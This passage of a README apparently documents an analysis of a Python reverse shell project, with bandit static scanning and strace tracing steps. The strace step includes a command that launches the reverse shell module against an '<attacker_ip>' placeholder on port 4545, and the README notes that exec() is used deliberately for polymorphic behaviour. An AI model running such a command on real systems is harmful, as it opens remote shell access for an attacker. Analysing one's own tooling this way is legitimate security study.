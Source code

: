 This section covers three analysis types that help validate how your reverse shell works:
- **Static Analysis** — Examines source code without executing it
- **Dynamic Analysis** — Observes behaviour at runtime
- **Network Analysis** — Monitors traffic between attacker and victim

---

#### 🧠 A. Static Code Analysis with `bandit`

- `bandit` identifies common security issues in Python code by scanning files without running them.

1. Install Bandit (if not already installed):
    ```bash
    pip install bandit
    ```

2. Scan your source code directories:
    ```bash
    bandit -r shell/ server/
    ```

3. Review the results:
    - `bandit` will flag use of `exec()` and dynamic code execution.
    - These are **intentional** in this project to implement polymorphic behaviour.
    - Could add `# nosec` to suppress known safe uses, e.g.:
        ```
        python
        exec(func_code, {'encrypt_func': encrypt_func}, local_scope)  # nosec
        ```
        - But I deliberately did not use `# nosec` annotations to suppress any Bandit warnings to ensure transparency

    - See example `bandit` report: [bandit_report.txt](./reports/bandit_report.txt)

---

#### ⚙️ B. Dynamic Runtime Behaviour Analysis with `strace`

- `strace` traces all system calls made by a running program.

1. Start a syscall trace (on Ubuntu VM):
    ```bash
    strace -f -o strace.log python3 -m shell.reverse_shell <attacker_ip> 4545
    ```
    - Explanation of flags:
        - `-f`: follows any child processes (important for `subprocess`)
        - `-o strace.log`: writes the output to a log file for easier inspection

2. Run a few shell commands from the attacker server.

    - See screenshot of running `strace`: [reverse-shell-run-with-strace.jpg](./screenshots/reverse-shell-run-with-strace.jpg)

3. Inspect the trace output:
    ```bash
    less strace.log
    ```
